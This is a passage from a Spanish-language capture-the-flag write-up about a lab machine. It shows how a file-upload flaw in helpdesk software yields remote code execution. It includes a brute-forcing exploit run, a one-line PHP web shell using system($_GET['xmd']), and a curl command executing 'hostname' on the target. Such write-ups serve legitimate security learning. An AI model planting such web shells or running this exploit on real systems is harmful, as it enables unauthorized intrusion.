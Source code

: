 Perfecto, pues cambiémoslo para que quede con nuestra data:

```py
...
fileName = "holiwis.php"
...
```

Ahora, creamos de nuevo un ticket, adjuntamos el archivo `holiwis.php`, vemos que nos responda `File is not allowed` y ejecutamos el exploit para ver si encuentra el archivo:

```bash
❱ python3 tryRCE.py
...
http://10.10.10.121/support/uploads/tickets/e536560d711ec6b799cdd6bff5df7ff1.php
http://10.10.10.121/support/uploads/tickets/7f809bc1c8849caf3158f4cfae9b4d84.php
http://10.10.10.121/support/uploads/tickets/b312527ca778b642e03ee24e44918aeb.php
http://10.10.10.121/support/uploads/tickets/d54ee70b5314543bb595b6690dfd9a91.php
http://10.10.10.121/support/uploads/tickets/21cdbb35831b91f5f551d79e0e5bad58.php
found!
```

OPAAA, pues visitemos ese link:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/help/170page80_support_foundTicketRCE.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

EJEEEEEEEEEEEE, tenemos ejecución remota de comandooooooooooooooooooooooos!!

Ahora generemos un archivo que nos permita ejecutar cualquier comando que le pasemos por una variable **GET**:

```bash
❱ cat holiwis.php 
<?php system($_GET['xmd']); ?>
```

Entonces, le pasaremos nuestro comando a través de la variable `xmd` y esta será interpretada por la función `system`, generemos el ticket y busquemos el archivo:

```bash
❱ python3 tryRCE.py 
http://10.10.10.121/support/uploads/tickets/8ea50935d73ed6f424a8a79adfb34de0.php
http://10.10.10.121/support/uploads/tickets/240236ef9c7351d8334a14df56870917.php
http://10.10.10.121/support/uploads/tickets/ee130b3f3dc98c3e9a71682e0bece6cb.php
http://10.10.10.121/support/uploads/tickets/22d8b499c06c57f6728ead123c0fede8.php
http://10.10.10.121/support/uploads/tickets/a21b24a794cf5736c769a2f19e42e6f9.php
http://10.10.10.121/support/uploads/tickets/1ce35b9e8b7b6d3fd36c2ab9c8a52156.php
found!
```

Validamos:

```bash
❱ curl http://10.10.10.121/support/uploads/tickets/1ce35b9e8b7b6d3fd36c2ab9c8a52156.php?xmd=hostname
help
```
